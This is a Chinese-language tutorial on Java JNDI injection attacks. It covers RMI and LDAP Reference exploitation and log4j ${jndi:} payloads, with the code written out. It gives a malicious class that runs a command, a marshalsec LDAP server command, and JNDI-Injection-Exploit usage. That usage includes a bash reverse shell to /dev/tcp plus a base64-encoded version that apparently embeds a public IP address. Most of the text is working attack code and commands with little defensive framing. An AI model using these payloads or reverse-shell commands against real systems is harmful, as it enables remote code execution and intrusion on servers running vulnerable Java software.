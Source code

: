 ![](.topwrite/assets/image_1727319060611.png)
## **JNDI+RMI利用方式**
直接JNDI运行远程方法。
在JNDI服务中，RMI服务端除了直接绑定远程对象之外，还可以通过References类来绑定一个外部的远程对象(当前名称目录系统之外的对象)。绑定了Reference之后，服务端会先通过Referenceable.getReference()获取绑定对象的引l用，并且在目录中保存。
当客户端在lookup()查找这个远程对象时，客户端会获又相应的object factory，最终通过factory类将reference转换为具体的对象实例。
在jdk 8U121后不可用了。RMl远程Reference代码默认不信任，RMl远程Reference代码攻击方式开始失效。

**简单案例**
恶意类，编译.class放在8080http服务
```
import java.io.IOException;​
public class Evil {​
        static {​
                try {​
                        Runtime.getRuntime().exec("calc");​
                } catch (IOException e) {​
                        throw new RuntimeException(e);​
                }​
        }​
}
```
RMI服务端，使用Reference引用http上的class文件
```
public class Refer {​
        public static void main(String[] args) throws NamingException, RemoteException, AlreadyBoundException {​
                String url = "http://127.0.0.1:8080/";​
                Registry registry = LocateRegistry.createRegistry(1099);​
                System.out.println("Registry start");​
                Reference reference = new Reference("test", "Evil", url);​
                ReferenceWrapper referenceWrapper = new ReferenceWrapper(reference);​
                registry.bind("aa",referenceWrapper);​
        }​
}
```
被攻击的客户端使用JNDI
```
public class Client {​
        public static void main(String[] args) throws NamingException {​
                Context context=new InitialContext();​
                String url="rmi://127.0.0.1:1099/aa";​
                context.lookup(url);​
        }​
}
```


^
## **JNDI+LDAP利用方式**
使用marshalsec启动一个恶意的LDAP服务，可以执行恶意方法。
其中 http://127.0.0.1:8000/#Evil 的根目录下有一个Evil.class的恶意类。
```
java -cp marshalsec-0.0.3-SNAPSH0T-all.jar marshalsec.jndi.LDAPRefServer http://127.0.0.1:8000/#Evil 10997
```
```
public static void main(String[] args) throws NamingException {
    InitialContext context = new InitialContext();
    context.lookup( "ldap://127.0.0.1:10997/evil");
}
```
从jdk 8u191开始，LDAP远程Reference代码默认不信任，LDAP远程Reference代码攻击方式开始失效，需要通过javaSerializedData返回序列化gadget方式实现攻击。

^
## **存在JNDI注入的入口类方法**
即存在new InitialContext().lookup()
常见有类com.sun.rowset.JdbcRowSetImpl，其中有个dataSourceName方法中。




^
## **log4j的JNDI注入**
```
使用${jndi:}后，底层使用了new InitialContext().lookup()
logger.info("${jndi:ldap://127.0.0.1:1099/Evil}");
logger.error("${jndi:ldap://127.0.0.1:1099/Evil}");
```

```
仅测试dnslog即可，一般有结果就一定存在注入
logger.info("${jndi:ldap://xx.dnslog.cn}");
```

^
## **一键搭建LDAP或RMI利用服务**

JNDI利用工具：JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar
jndi进行命令执行，反弹shell：<https://blog.csdn.net/m0_74294234/article/details/137188160>
支持同时启动ldap服务和rmi服务。

```
java8 -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "calc"

${jndi:rmi://192.168.1.8:1099/yfwrr7}
${jndi:ldap://192.168.1.8:2113/akndj}


注意反弹shell命令需要base64编码
bash -i >& /dev/tcp/（你服务器的公网IP地址）/8888（监听的端口号，我这里使用的是8888端口） 0>&1
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMjAuNzYuMjMxLjczLzg4ODggMD4mMQ==（这是上一行代码的base64编码）

java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMjAuNzYuMjMxLjczLzg4ODggMD4mMQ==}|{base64,-d}|{bash,-i}" -A "（你服务器的公网IP地址）"
```


^
可以注入内存马的最新版工具：
<https://github.com/wyzxxz/jndi_tool>